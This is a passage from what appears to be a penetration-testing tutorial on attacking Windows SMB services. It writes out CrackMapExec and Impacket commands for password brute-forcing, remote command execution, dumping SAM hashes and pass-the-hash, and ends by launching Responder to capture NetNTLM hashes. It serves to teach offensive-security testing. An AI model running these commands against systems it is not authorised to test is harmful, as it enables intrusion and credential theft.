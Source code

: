 We can use **CrackMapExec** to brute force it:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER LIST> -p <PASSWORD> -d <DOMAIN>
```

If this user is an Administrator or has specific privileges, we will be able to perform operations such as:
- Remote Command Execution
- Extract Hashes from SAM Database
- Enumerating Logged-on Users
- Pass-the-Hash (PTH)

To perform a RCE we can download [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) from Microsoft website, or we can use some Linux implementations:
- Impacket [PsExec](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py)
- Impacket [SMBExec](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py)
- Impacket [atexec](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/atexec.py)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- Metasploit [PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)

For example:
```console
zero@pio$ impacket-psexec <USER>:'<PASSWORD>'@<TARGET>
```

The same options apply to **impacket-smbexec** and **impacket-atexec**. With CrackMapExec:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```

> If the `--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.
{: .prompt-tip}

We can also use it to enumerate loggin users:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -p '<PASSWORD>' --loggedon-users
```

Extract hashes from SAM database:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -p '<PASSWORD>' --sam
```

Pass-the-Hash (PtH):
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -H <HASH>
```

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. The most common tool to perform such operations is the [Responder](https://github.com/lgandx/Responder). Imagine we created a fake SMB server using the Responder default configuration, with the following command:
```console
zero@pio$ responder -I <INTERFACE>
```
